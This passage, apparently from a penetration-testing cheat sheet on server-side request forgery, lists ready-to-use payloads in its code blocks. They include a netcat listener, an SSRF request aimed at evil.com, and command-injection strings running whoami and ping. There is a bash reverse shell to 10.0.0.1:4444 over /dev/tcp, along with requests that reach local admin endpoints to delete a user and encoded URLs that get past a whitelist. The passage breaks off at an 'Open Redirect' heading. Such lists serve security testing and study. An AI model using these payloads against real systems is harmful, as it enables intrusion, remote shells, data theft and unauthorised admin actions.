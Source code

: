 ```bash
sudo nc -lvp 80
```

Then send request that is affected by SSRF.

```bash
https://example.com/mail?server=http://evil.com
```

See the HTTP request in local machine.  
We might be able to fetch the sensitive data such as API key, Cookie, etc.

<br />

## OS Command Injection

```bash
?url=http://127.0.0.1:3000/test;whoami
?url=http://127.0.0.1:3000/test;ping+-c+1+10.0.0.1
# Reverse Shell
?url=http://127.0.0.1:3000/;bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
```

<br />

## Admin Operations

We may be able to operate significant stuff as the admin user via local server.

```sh
# Localhost
?url=http://localhost/admin
?url=http://localhost/admin/delete?username=john
?url=http://127.1/%25%36%31dmin

# Backend URL (e.g. 192.168.0.x)
?url=http://192.168.0.23/admin
?url=http://192.168.0.23/admin/delete?username=john
```

<br />

## Whitelisted URL Bypass

If the target website allows only the whitelisted URL, we can use them.  
Assume only "example.com" is allowed by the target website.

```sh
?url=http://localhost@example.com/
?url=http://localhost%25%32%33@example.com/
```

<br />

## Open Redirect
